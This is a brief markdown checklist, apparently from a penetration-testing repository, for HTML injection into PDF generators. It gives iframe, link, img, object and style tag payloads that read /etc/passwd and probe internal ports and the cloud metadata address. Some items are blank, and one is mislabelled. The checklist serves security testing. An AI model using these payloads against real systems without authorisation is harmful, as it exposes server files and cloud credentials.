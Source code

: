 # PDF Generation issues

If we could inject an HTML tag to the conversion process, in some libraries, we can download almost any file from the web server. For this attack vector, we should use these tags:

## LFI

- [ ] Test iframe tags for LFI: `<iframe src="file:///etc/passwd" height=1000 width=1000/>`
  - https://medium.com/@inonst/export-injection-2eebc4f17117
  - https://docs.google.com/presentation/d/1JdIjHHPsFSgLbaJcHmMkE904jmwPM4xdhEuwhy2ebvo
- [ ] Test object tags for LFI: 
- [ ] Test fonts (CSS) tags for LFI: 
- [ ] Test <link> for LFI. Create an html on an attacker controlled box with the following link tag: `<link rel=attachment href=”file:///etc/passwd”>` (need to unpack the PDF)


## SSRF

- [ ] Test iframe tags for SSRF: `<img src=”http://127.0.0.1:445”/>` (check response time to determine open/closed ports)
- [ ] Test object tags for SSRF: `<object data=”http://127.0.0.1:8443”/>`
- [ ] Test fonts (CSS) tags for SSRF: `<style><iframe src=”http://169.254.169.254/user-data”>`
